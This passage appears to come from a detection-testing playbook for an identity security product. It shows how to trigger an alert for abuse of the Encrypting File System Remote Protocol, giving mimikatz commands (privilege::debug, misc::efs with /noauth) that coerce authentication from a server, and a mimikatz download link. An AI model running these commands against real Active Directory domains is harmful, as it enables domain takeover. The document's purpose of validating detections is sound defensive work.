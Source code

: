 For details about this alert, see [Suspicious network connection over Encrypting File System Remote Protocol (external ID 2416)](lateral-movement-alerts.md#suspicious-network-connection-over-encrypting-file-system-remote-protocol-external-id-2416).

This detection is triggered when an attacker tries to take over an Active Directory domain by exploiting a flaw in the Encrypting File System Remote (EFSRPC) Protocol.

From a command line on a workstation, run with a local admin account:  

```cmd
mimikatz # privilege::debug  
mimikatz # misc::efs /server:10.4.0.100 /connect:10.4.0.13 /noauth
```

Tools available from: <https://github.com/gentilkiwi/mimikatz/releases>  

Detail in the alert:  

![Suspicious network connection over Encrypting File System Remote Protocol alert details.](media/playbooks/efsrpc-details.png)

## Suspected DCSync attack (replication of directory services)

For details about this alert, see [Suspected DCSync attack (replication of directory services) (external ID 2006)](domain-dominance-alerts.md#suspected-dcsync-attack-replication-of-directory-services-external-id-2006).
